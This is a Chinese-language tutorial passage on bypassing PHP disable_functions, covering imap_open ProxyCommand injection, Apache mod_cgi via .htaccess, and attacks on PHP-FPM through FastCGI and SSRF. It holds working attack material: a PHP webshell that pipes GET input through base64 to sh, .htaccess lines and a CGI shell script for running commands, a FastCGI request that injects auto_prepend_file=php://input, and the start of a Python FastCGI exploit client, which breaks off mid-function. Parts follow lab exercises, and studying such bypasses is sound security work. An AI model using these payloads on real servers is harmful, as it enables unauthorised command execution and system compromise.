PHP的imap_open函数中的漏洞可能允许经过身份验证的远程攻击者在目标系统上执行任意命令。该漏洞的存在是因为受影响的软件imap_open函数在将邮箱名称传递给rsh或ssh命令之前不正确地过滤邮箱名称。如果启用了rsh和ssh功能并且rsh命令是ssh命令的符号链接，则攻击者可以通过向目标系统发送包含-oProxyCommand参数的恶意IMAP服务器名称来利用此漏洞，成功的攻击可能允许攻击者绕过其他禁用的exec受影响软件中的功能，攻击者可以利用这些功能在目标系统上执行任意shell命令，利用此漏洞的功能代码是MSF的一部分
**imap_open()**

```php
resource imap_open ( string $mailbox , string $username , string $password [, int $options = 0 [, int $n_retries = 0 [, array $params = NULL ]]] )
```

mailbox参数的值由服务器名和服务器上的mailbox文件路径所组成，INBOX代表的是当前用户的个人邮箱。比如，我们可以通过如下方式来设置mailbox参数：

```php
$mbox = imap_open ("{localhost:993/PROTOCOL/FLAG}INBOX", "user_id", "password");
```

 简单地说，就是imap_open()函数会调用到rsh的程序，而该程序中会调用execve系统调用来实现rsh的调用，其中的邮件地址参数是由imap_open()函数的mailbox参数传入，同时，由于rsh命令是ssh命令的符号链接，所以当我们利用ssh的-oProxyCommand参数来构造恶意mailbox参数时就能执行恶意命令。

-oProxyCommand参数

ProxyCommand指定用于连接服务器的命令。

 但是我们不能直接将上述命令直接转移到PHP脚本来代替imap_open服务器地址，因为在解析时它会将空格解释为分隔符和斜杠作为标志，但是**可以使用$IFS这个shell变量来替换空格符或使用\t替换。还可以在bash中使用Ctrl + V热键和Tab键插入标签。绕过斜杠可以使用base64来进行绕过。**


## 攻击利用

 先判断是否存在imap_open()函数，然后构造exp执行通过外部GET输入的命令然后保存结果到本地文件中，最后输出结果文件内容，**注意sleep(5)是为了等imap_open()函数执行完、因为该函数执行时需要DNS查询会存在延时**

```php
<?php
error_reporting(0);
if (!function_exists('imap_open')) {
        die("no imap_open function!");
}
$server = "x -oProxyCommand=echo\t" . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . "|base64\t-d|sh}";
//$server = 'x -oProxyCommand=echo$IFS$()' . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . '|base64$IFS$()-d|sh}';
imap_open('{' . $server . ':143/imap}INBOX', '', ''); // or var_dump("\n\nError: ".imap_last_error());
sleep(5);
echo file_get_contents("/tmp/cmd_result");
?>
```

**这里替换空格符的\t也可以使用$IFS来绕过**

# 0x06 利用Apache Mod CGI

## 使用条件

- Linux操作系统
- Apache + PHP（apache使用apache_mod_php）
- Apache开启了cgi、rewrite
- Web目录给了AllowOverride权限
- 当前目录可写

## 原理简述

PHP的连接方式有三种，分为apache2-module模式，CGI模式，FastCGI模式。

可以在phpinfo()的Server API中查看

-  早期的Web服务器，只能响应浏览器发来的HTTP静态资源的请求，并将存储在服务器中的静态资源返回给浏览器。但是逐渐开始出现了动态技术，Web服务器并不能直接运行动态脚本，为了让Web服务器与外部应用程序(CGI程序)之间数据能够互通，于是出现了CGI(Common Gateway Interface)通用网关接口。简单理解，可以认为CGI是Web服务器和运行在其上的应用程序之间进行"交流"的约定。


-  当遇到动态脚本请求时，Web服务器主进程就会Fork创建出一个新的进程来启动CGI程序，在运行外部C程序或其他脚本时，也就是将动态脚本交给了CGI程序来处理。但是启动CGI程序需要一个过程，如读取配置文件、加载拓展等。当CGI程序启动之后会去解析动态脚本，然后将结果返回给Web服务器，最后由Web服务器将结果返回给客户端，之前Fork出来的进程也随之关闭。这样子，每次用户请求动态脚本，Web服务器都要重新Fork创建一个新的进程去启动CGI程序，由CGI程序来处理动态脚本，处理完成之后进程随之关闭，其效率是很低的


- 而对于Mod CGI，Web服务器可以内置Perl解释器或PHP解释器。 也就是说将这些解释器做成模块的方式，Web服务器会在启动的时候就启动这些解释器，当有新的动态请求进来时，Web服务器就是自己解析这些动态脚本，不用再重新Fork一个新进程了。


-  任何具有MIME类型application/x-httpd-cgi或者被cgi-script处理器处理的文件都将被作为CGI脚本对待，并由服务器运行，它的输出将被返回给客户端。可以通过两种途径使文件成为CGI脚本，一种是文件具有已由AddType指令定义的拓展名，另一种是文件位于ScriptAlias目录中


-  Apache在配置开启CGI后可以用ScriptAlia指令指定一个目录，指定的这个目录下面就可以存放可执行的CGI程序，若是想临时允许一个目录可以执行CGI程序并且使得服务器将自定义的后缀解析为CGI程序执行，则可以在目的目录下使用htaccess文件进行配置，如下：
-  **Options + ExecCGI AddHandler cgi-script.xxx**
-  **这样便会将当前目录下的所有.xxx文件当作CGI程序执行了**
-  由于CIG程序可以执行命令，这样我们就可以利用CGI来执行系统命令，以此绕过disable_functions

```php
CGI 是在 1993 年由美国国家超级电脑应用中心（NCSA）为 NCSA HTTPd Web 服务器开发的，这个 Web 服务器使用了 UNIX shell 环境变量 来保存从 Web 服务器传递出去的参数，然后生成一个运行 CGI 的独立进程
Apache的mod-php就是这种实现
FastCGI使用进程/线程池来处理一连串的请求。这些进程/线程由FastCGI服务器管理，而不是Web服务器。 当进来一个请求时，Web服务器把环境变量和这个页面请求通过一个Socket长连接传递给FastCGI进程
Apache的php-fpm就是这种实现
```

## 攻击利用

```
cd ~/AntSword-Labs/bypass_disable_functions/3
docker-compose up -d
```



无法执行命令

 查了phpinfo()的配置信息，版本为5.6.11，大佬说要查看Apache的CGI服务有没有打开，但是我不知道 怎么看(还是太菜了)，就默认它打开了吧。

在当前目录下有写入文件的权限，创建.htaccess文件，写入

```
Options +ExecCGI AddHandler cgi-script .ant
```

**这里踩了坑，直接用蚁剑新建然后写入，直接爆了500，因为linux中CGI比较严格，无法解析我们bash文件。我们的目标站点是linux环境，如果我们用(windows等)本地编辑器编写上传时编码不一致导致无法解析，所以我们可以在linux环境中编写并导出再上传**

```
cat>>.htaccess 
Options +ExecCGI
AddHandler cgi-script .ant#将文件后缀为.ant的文件当作CGIc执行
```



再把文件上传到目录里

**/usr/local/bin/php**

然后新建shell.ant，写入

```php
#!/bin/sh echo Content-type: text/html echo "" echo&&id
```



```
?ant=chmod('shell.ant',0777);#设置文件权限可读写可执行
```

但是设置了之后访问shell.ant出错

跟踪apache日志发现：



于是修改shell.ant文件





# 0x07 通过攻击 PHP-FPM

## 使用条件

- Linux操作系统
- PHP-FPM
- 存在目录可写，需要上传.so文件

## 原理简述



早期的web服务器只处理html等静态资源，后来发展出了php等动态语言来丰富Web，形成了动态Web资源，这时Web服务器就处理不了了，就交给了PHP解释器来处理，但是PHP解释器和Web服务器进行通信就成了一个问题，为了解决不同语言的解释器（如php,python解释器）与Web服务器的通信，于是出现了CGI协议。只要按照CGI协议编写程序，就能够实现语言解释器与Web服务器的通信，如PHP-CGI程序

### **Fast-CGI**

 有了CGI，就解决了Web服务器与PHP解释器的通信问题，但是Web服务器有一个问题，就是它每收到一个请求就会去Fork一个CGI进程，请求结束再kill掉这个进程，这样十分浪费资源。于是，就有了CGI的改良版本,Fast-CGI。Fast-CGI每次处理完请求之后，并不会kill掉这个进程，而是保留这个进程，使这个进程可以一次处理多个请求，以提高效率

### **Fast-CGI Recode**

CGI/Fastcgi是一个通信协议，和HTTP协议一样，都是进行数据交换的一个通道

 HTTP协议是浏览器和服务器中间件进行数据交换的协议，浏览器将HTTP头和HTTP体用某个规则组装成数据包，以TCP的方式发送到服务器中间件，服务器中间件按照规则将数据包解码，并按要求拿到用户需要的数据，再以HTTP协议的规则打包返回给服务器。
类比HTTP协议来说，CGI协议是Web服务器和解释器进行数据交换的协议，它由多条record组成，每一条record都和HTTP一样，也由header和body组成，Web服务器将这二者按照CGI规则封装好发送给解释器，解释器解码之后拿到具体数据进行操作，得到结果之后再次封装好返回给Web服务器中间件。
 和HTTP头不同，record的header头部固定的是8个字节，body是由头中的contentLength指定，结构如下

```php
typedef struct { 
	/*header*/
	HEAD unsigned char version; //版本 
	unsigned char type; //本次record的类型 
	unsigned char requestIdB1; //本次record对应的请求id 
	unsigned char requestIdB0; 
	unsigned char contentLengthB1; //body体大小 
	unsigned char contentLengthB0; 
	unsigned char paddingLength; //额外块大小 
	unsigned char reserved;
    
    /*BODY*/ 
    unsigned char contentData[contentLength];//主要内容 
	unsigned char paddingData[paddingLength];//额外内容 
	}
FCGI_Record;
```

头由8个unsigned char类型的变量组成，每个变量1个字节，其中requedtID占两个字节，一个唯一的标志id，以避免多个请求之间的影响；contentLength占两个字节，表示body的大小。

 语言端解析了fastcgi头之后，拿到contentLength然后再在TCP流中读取大小等于contentLength的数据，拿到的这个就是body体。

 Body后面还有一段额外的数据(Padding)，其长度由头中的paddingLength指定，起保留作用，不需要改Padding时，其长度可直接设为0。由此可见，一个fastcgi record结构最大支持的body大小是2^16，也就是65536字节。

**type**

 type就是指定该record的作用。因为FastCGI的一个record的大小是有限的，作用也是单一的，所以我们需要在一个TCP流里传输多个record。通过type来标志每个record的作用，用requestld作为同一次请求的id。也就是说，每次请求，会有多个record，他们的requestId是一致的

 服务器中间件和PHP-FPM通信的第一个数据包是type为1的record，而后续通信的type为4、5、6、7的record，结束时发送type为2、3的record

 当后端语言接收到一个type为4的record后，就会把这个record的body按照对应的结构解析为键值对，这就是环境变量。

```php
typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair11;

typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength
         ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair14;

typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair41;

typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair44;

```

这其实是4个结构，至于用哪个结构，有如下规则：

    key、value均小于128字节，用FCGI_NameValuePair11
    key大于128字节，value小于128字节，用FCGI_NameValuePair41
    key小于128字节，value大于128字节，用FCGI_NameValuePair14
    key、value均大于128字节，用FCGI_NameValuePair44

这个时候，用户访问http://127.0.0.1/index.php?a=1&b=2，如果web目录是/var/www/html，那么Nginx会将这个请求变成如下的键值对（key-value）

```php
{ 
    	'GATEWAY_INTERFACE': 'FastCGI/1.0', 
        'REQUEST_METHOD': 'GET', 
        'SCRIPT_FILENAME': '/var/www/html/index.php', 
        'SCRIPT_NAME': '/index.php', 
        'QUERY_STRING': '?a=1&b=2', 
        'REQUEST_URI': '/index.php?a=1&b=2', 
        'DOCUMENT_ROOT': '/var/www/html', 
        'SERVER_SOFTWARE': 'php/fcgiclient', 
        'REMOTE_ADDR': '127.0.0.1', 
        'REMOTE_PORT': '12345', 
        'SERVER_ADDR': '127.0.0.1', 
        'SERVER_PORT': '80', 
        'SERVER_NAME': "localhost", 
        'SERVER_PROTOCOL': 'HTTP/1.1' 
}
```

 这个数组其实就是PHP中$_SERVER数组的一部分，也就是PHP里面的环境变量。但环境变量的作用不只是填充了$_SERVER数组，也是告诉了FPM：“我要执行哪个PHP文件”。

 PHP-FPM拿到Fastcgi的数据包后，进行解析，得到上述的环境变量，然后执行SCRIPT_FILENAME的值指向的PHP文件，也就是/var/www/html/index.php

### **FPM**

FPM(FastCGI进程管理器)用于替换PHP FastCGI的大部分附加功能，对于高负载网站十分有效

 FPM就是Fastcgi的协议解析器，Web服务器使用CGI协议封装好用户的请求发给FPM。FPM按照CGI的协议将TCP流解析成真正的数据



### 通信方式

 在PHP使用FastCGI连接模式的情况下，Web服务器中间件如Nginx和PHP-FPM之间的通信方式又分为两种：

**TCP模式**

 TCP模式即是PHP-FPM进程会监听本机上的一个端口（默认为9000），然后Nginx会把客户端数据通过FastCGI协议传给9000端口，PHP-FPM拿到数据后会调用CGI进程解析。

 通常我们可以通过查看Nginx的配置文件default.conf来确认是否是TCP模式，这里我的环境中的路径为/conf/vhosts/0localhost_80.conf，看fastcgi_pass这一项，若为ip+port的形式为TCP模式

```php
location ~ \.php(.*)$ {
            fastcgi_pass   127.0.0.1:9000;
            fastcgi_index  index.php;
            fastcgi_split_path_info  ^((?U).+\.php)(/?.+)$;
            fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
            fastcgi_param  PATH_INFO  $fastcgi_path_info;
            fastcgi_param  PATH_TRANSLATED  $document_root$fastcgi_path_info;
            include        fastcgi_params;
        }
```

 在PHP-FPM中，可以通过查看其配置文件，个人环境中的路径为/usr/local/etc/php-fpm.d/www.conf，看到listen一项若为ip+port的形式即为TCP模式：

```php
; The address on which to accept FastCGI requests.
; Valid syntaxes are:
;   'ip.add.re.ss:port'    - to listen on a TCP socket to a specific IPv4 address on
;                            a specific port;
;   '[ip:6:addr:ess]:port' - to listen on a TCP socket to a specific IPv6 address on
;                            a specific port;
;   'port'                 - to listen on a TCP socket to all addresses
;                            (IPv6 and IPv4-mapped) on a specific port;
;   '/path/to/unix/socket' - to listen on a unix socket.
; Note: This value is mandatory.
listen = 127.0.0.1:9000
```

**Unix Socket模式**

 Unix套接字模式是Unix系统进程间通信（IPC）的一种被广泛采用方式，以文件（一般是.sock）作为socket的唯一标识（描述符），需要通信的两个进程引用同一个socket描述符文件就可以建立通道进行通信了。

相比之下，Unix套接字模式的性能会优于TCP模式。

还是一样的识别方法，在Nginx的default.conf中查看fastcgi_pass：

```php
location~\.php${
      index index.php index.html index.htm;
      include /etc/nginx/fastcgi_params;
      fastcgi_pass unix:/run/php/php7.3-fpm.sock;
      fastcgi_index index.php;
      include fastcgi_params;
}
```

在PHP-FPM的www.conf中查看listen

```
listen = /run/php/php7.3-fpm.sock
```

## 攻击利用

 这里由于FPM默认监听的是9000端口，我们就可以绕过Web服务器，直接构造Fastcgi协议，和FPM进行通信。于是就有了利用Webshell直接与FPM通信来绕过disable_function的姿势

接下来就是使用CGI协议封装请求，通过Socket来直接与FPM进行通信。

**第一个限制**

 既然是请求，那么SCRIPT_FILENAME就十分重要，因为前面说过，FPM是根据这个值来执行PHP文件的，如果不存在就会直接返回404，所以要想利用这个漏洞，就得找到一个已经存在的PHP文件，好在一般进行源安装PHP的时候， 服务器都会带上一些PHP文件，如果没有收集到目标Web目录信息的话，可以尝试一下从这个方向突破

**第二个限制**

 即使我们能够控制SCRIPT_FILENAME，让FPM执行任意文件，那也只能执行目标服务器上的文件，并不能执行我们需要其执行的文件。那么如何执行我们自己所需要的文件呢，可以从php.ini入手，它有两个特殊选项，能够让我们做到任意命令执行，就是auto_prepend_file和auto_append_file

 auto_prepend_file的功能是在执行目标文件之前，先包含它指定的文件。假设我们设置auto_prepend_file为php://input，那么就等于在执行任何php文件之前都要包含一遍POST过去的内容，所以我们只要把执行的代码放在POST Body中进行远程文件包含，这样就能做到任意代码执行

**第三个限制**

 虽然可以远程文件包含执行任意代码，但是远程文件含有allow_url_include这个限制因素，如果没有为ON的话就没有办法进行远程文件包含，那要怎么设置呢？这里PHP-FPM有两个可以设置PHP配置项的键值对，即PHP_VALUE和PHP_ADMIN_VALUE，PHP_VALUE可以用来设置php.ini，PHP_ADMIN_VALUE则可以设置所有与选项，(disable_function除外)

最后构造如下

```php
{ 
    'GATEWAY_INTERFACE': 'FastCGI/1.0', 
 	'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/name.php', 
    'SCRIPT_NAME': '/name.php', 
    'QUERY_STRING': '?name=alex', 
    'REQUEST_URI': '/name.php?name=alex', 
    'DOCUMENT_ROOT': '/var/www/html', 
    'SERVER_SOFTWARE': 'php/fcgiclient', 
    'REMOTE_ADDR': '127.0.0.1', 
    'REMOTE_PORT': '6666', 
    'SERVER_ADDR': '127.0.0.1', 
    'SERVER_PORT': '80', 
    'SERVER_NAME': "localhost", 
    'SERVER_PROTOCOL': 'HTTP/1.1' 
    'PHP_VALUE': 'auto_prepend_file = php://input', 
    'PHP_ADMIN_VALUE': 'allow_url_include = On' 
}
```

该请求设置了auto_prepend_file=php://input且allow_url_include=On，然后将我们要执行的代码放在Body中，就可以执行任意代码了。

 另外，SCRIPT_FILENAME选项需要我们设置一个服务端已存在的PHP文件，该选项是让PHP-FPM执行目标服务器上的文件，且由于security.limit_extensions项的限制导致只能执行PHP文件。那么找一下PHP安装中默认存在的PHP文件就可以作为利用文件了

### SSRF攻击本地PHP-FPM

#### 基本原理

 PHP-FPM开放在公网上的情况是很少的，大部分时候都是启动在本地即监听127.0.0.1:9000地址的。虽然我们没有办法直接对PHP-FPM发起攻击，但是我们可以结合其他漏洞来间接利用。如果目标站点存在SSRF漏洞，那么我们就可以借助SSRF来攻击本地PHP-FPM服务，达到任意代码执行的效果。

Gopher协议

    gopher://<host>:<port>/<gopher-path>_后接TCP数据流

 可以利用Gopher协议来直接发送TCP协议流，从中进行urlencode编码来构造SSRF攻击代码，器中攻击代码就是恶意FastCGI报文

前提为目标站点存在SSRF漏洞

```php
<?php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0); 
    curl_exec($ch);
    curl_close($ch); 
}
$url = $_GET['url'];
curl($url);
?>
```

贴大牛EXP脚本

```python
import socket
import base64
import random
import argparse
import sys
from io import BytesIO
import urllib
# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client
 
PY2 = True if sys.version_info.major == 2 else False
 
 
def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])
 
def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)
 
def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')
 
def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s
 
 
class FastCGIClient:
    """A Fast-CGI Client for Python"""
 
    # private
    __FCGI_VERSION = 1
 
    __FCGI_ROLE_RESPONDER = 1
    __FCGI_ROLE_AUTHORIZER = 2
    __FCGI_ROLE_FILTER = 3
 
    __FCGI_TYPE_BEGIN = 1
    __FCGI_TYPE_ABORT = 2
    __FCGI_TYPE_END = 3
    __FCGI_TYPE_PARAMS = 4
    __FCGI_TYPE_STDIN = 5
    __FCGI_TYPE_STDOUT = 6
    __FCGI_TYPE_STDERR = 7
    __FCGI_TYPE_DATA = 8
    __FCGI_TYPE_GETVALUES = 9
    __FCGI_TYPE_GETVALUES_RESULT = 10
    __FCGI_TYPE_UNKOWNTYPE = 11
 
    __FCGI_HEADER_SIZE = 8
 
    # request state
    FCGI_STATE_SEND = 1
    FCGI_STATE_ERROR = 2
    FCGI_STATE_SUCCESS = 3
 
    def __init__(self, host, port, timeout, keepalive):
        self.host = host
        self.port = port
        self.timeout = timeout
        if keepalive:
            self.keepalive = 1
        else:
            self.keepalive = 0
        self.sock = None
        self.requests = dict()
 
    def __connect(self):
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.settimeout(self.timeout)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        # if self.keepalive:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 1)
        # else:
        #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 0)
        try:
            self.sock.connect((self.host, int(self.port)))
        except socket.error as msg:
            self.sock.close()
            self.sock = None
            print(repr(msg))
            return False
        return True
 
    def __encodeFastCGIRecord(self, fcgi_type, content, requestid):
        length = len(content)
        buf = bchr(FastCGIClient.__FCGI_VERSION) \
               + bchr(fcgi_type) \
               + bchr((requestid >> 8) & 0xFF) \
               + bchr(requestid & 0xFF) \
               + bchr((length >> 8) & 0xFF) \
               + bchr(length & 0xFF) \
               + bchr(0) \
               + bchr(0) \
               + content
        return buf
 
    def __encodeNameValueParams(self, name, value):
        nLen = len(name)
        vLen = len(value)
        record = b''
        if nLen < 128:
            record += bchr(nLen)
        else:
            record += bchr((nLen >> 24) | 0x80) \
                      + bchr((nLen >> 16) & 0xFF) \
                      + bchr((nLen >> 8) & 0xFF) \
                      + bchr(nLen & 0xFF)
